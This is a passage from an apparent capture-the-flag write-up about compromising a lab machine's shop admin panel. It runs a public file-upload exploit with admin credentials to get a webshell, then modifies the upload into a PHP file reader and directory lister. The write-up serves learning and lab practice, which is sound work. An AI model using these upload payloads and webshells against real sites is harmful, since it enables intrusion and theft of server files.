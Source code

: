 phpinfo() will provide useful information about the box:

```bash
files = {
        'vqmod': (rand + ".php", '<?php phpinfo();  ?>', "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```

```bash
root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/DPYLZ.php?c=id
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
...[snip]...
```

I’ll use that address to view the page. In that information, it’s clear why the webshell isn’t working:

![04](/assets/img/Compromis/04.png)

These functions are disabled, including system that’s used in the exploit.

disable_functions can be bypassed pretty easily, but that’s not the intended way to solve this box (I’ll show it in the next section).

## 1. Enumeration via PHP

### Read File / Dir List PHP
I modified the exploit again to upload a PHP file that allows me to get files and directories:

```bash
sploit =<?php
if (isset($_REQUEST['file'])) { 
    echo file_get_contents($_REQUEST['file']);
} 

if (isset($_REQUEST['dir'])) {
    print_r(scandir($_REQUEST['dir']));
}

?>
files = {
        'vqmod': (rand + ".php", sploit, "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```
